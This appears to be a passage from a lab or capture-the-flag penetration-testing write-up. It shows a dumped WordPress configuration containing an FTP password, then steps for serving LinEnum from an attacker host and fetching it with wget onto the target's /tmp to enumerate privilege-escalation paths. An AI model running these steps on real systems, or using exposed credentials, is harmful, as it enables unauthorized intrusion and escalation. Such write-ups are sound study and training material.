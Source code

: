      /* That's all, stop editing! Happy blogging. */
     /**
      * The WP_SITEURL and WP_HOME options are configured to access from any hostname or IP address.
      * If you want to access only from an specific domain, you can modify them. For example:
      *  define('WP_HOME','http://example.com');
      *  define('WP_SITEURL','http://example.com');
      *
     */
     
     define('WP_SITEURL', 'http://' . $_SERVER['HTTP_HOST'] . '/');
     define('WP_HOME', 'http://' . $_SERVER['HTTP_HOST'] . '/');
     
     
     /** Absolute path to the WordPress directory. */
     if ( !defined('ABSPATH') )
             define('ABSPATH', dirname(__FILE__) . '/');
     
     /** Sets up WordPress vars and included files. */
     require_once(ABSPATH . 'wp-settings.php');
     
     define('WP_TEMP_DIR', '/opt/bitnami/apps/wordpress/tmp');
     
     
     define('FS_METHOD', 'ftpext');
     define('FTP_BASE', '/opt/bitnami/apps/wordpress/htdocs/');
     define('FTP_USER', 'bitnamiftp');
     define('FTP_PASS', 'inevoL7eAlBeD2b5WszPbZ2gJ971tJZtP0j86NYPyh6Wfz1x8a');
     define('FTP_HOST', '127.0.0.1');
     define('FTP_SSL', false);
.

#### LinEnum

https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/

Download LinEnum

    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

Mount http server in the folder where you downloaded it

    python3 -m http.server

Download LinEnum.sh on the target machine

    cd /tmp
    wget 192.168.56.107:8000/LinEnum.sh
    
    ls -la
    total 64
    drwxrwxrwt  4 root   root    4096 Sep  8 22:17 .
    drwxr-xr-x 22 root   root    4096 Sep 16  2015 ..
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .ICE-unix
    drwxrwxrwt  2 root   root    4096 Sep  8 20:04 .X11-unix
    -rw-r--r--  1 daemon daemon 46631 Sep  8 20:12 LinEnum.sh
    chmod +x LinEnum.sh
    